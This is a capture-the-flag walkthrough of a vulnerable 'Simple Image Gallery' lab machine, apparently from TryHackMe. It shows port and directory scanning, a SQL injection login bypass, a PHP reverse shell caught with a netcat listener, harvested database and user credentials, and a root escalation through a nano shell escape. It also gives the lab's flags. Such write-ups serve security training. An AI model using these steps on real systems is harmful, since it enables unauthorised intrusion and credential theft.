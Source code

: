 # Gallery

* IP = 10.10.4.131

## Questions/Tasks:
1. How many ports are open?

* Nmap scan report:
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

```
**Ans-2**

2. What's the name of the CMS?

* Gobuster report:
```bash
2022/06/20 11:45:53 Starting gobuster
=====================================================
/gallery (Status: 301)
Progress: 26788 / 87666 (30.56%)
```
* Navigating to '/gallery' we're redirected to '/gallery/login.php'
* Firstly we try random creds like: _admin_ and _admin_ and get the following response when we inspect with dev   tools:
[Screenshot](./inspect.png)
* The login page is vulnerable to SQL injection(found by observation and testing around)
* Login to /gallery by:
```
' OR 1=1 #
```
in both username and password fields.
**Ans-Simple Image Gallery**

3. What's the hash password of the admin user?

* We navigate to this page(the my account page of the Admin):
![Screenshot](./1.png)
* Try to upload PHP reverse shell code attached with project
  Since the backend is probably made on PHP(hint: login page was login.php)
* Put a netcat listener:
```bash
nc -lnvp 7777
```
* And we get a reverse shell!
![Screenshot](./2.png)
* Stabilise the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* We're www-data with lower privileges
* mike is a user in home directory
### Start enumerating the server:
* The /var/www/html/gallery contents:
```bash
www-data@gallery:/var/www/html/gallery$ ls
404.html  build               database  index.php       report       user
albums    classes             dist      initialize.php  schedules
archives  config.php          home.php  login.php       system_info
assets    create_account.php  inc       plugins         uploads

```
* Contents of initialize.php:
```php

  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

    if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
    if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
    if(!defined('dev_data')) define('dev_data',$dev_data);
    if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
    if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
    if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
    if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");


```
* The password mentioned in clear text is of dev_oretnom which might be creds of MariaDB database admin
* We login with gallery_user and passw0rd321:
```bash
mysql -u gallery_user -p
```
* We login successfully!<br>
[Screenshot](./3.png)
* Henceforth we explore the database:
[Screenshot](./4.png)<br>
[Screenshot](./5.png)<br>
[Screenshot](./6.png)

**Ans-a228b12a08b6527e7978cbe5d914531c**

4. What's the user flag?

* In the /var directory we find backups directory which contains mike's home backup:
* In which we can find the sudo password for mike from .bash_history:
[Screenshot](./7.png)
[Screenshot](./8.png)
* The password:
```
b3stpassw0rdbr0xx
```
* Escalate with:
```bash
su mike
```

**Ans-THM{af05cd30bfed67849befd546ef}**

5. What's the root flag?

* To Escalate to root privileges we first check commands that can be run as root with:
```bash
$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
* As we can see we can run the above program as root:
* Navigating to /opt and the file contents are:
```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
* In the above 4 options we can run nano as root
* Hence we execute:
```bash
sudo /bin/bash /opt/rootkit.sh
```
* Take help from <a href="https://gtfobins.github.io/">gtfobins</a> to Escalate privileges through nano:
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```
* ctrl+R for Read File and then ctrl+X to execute commands
[Screenshot](./9.png)
* Navigate to /root and check the root.txt file
**Ans**-
```
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
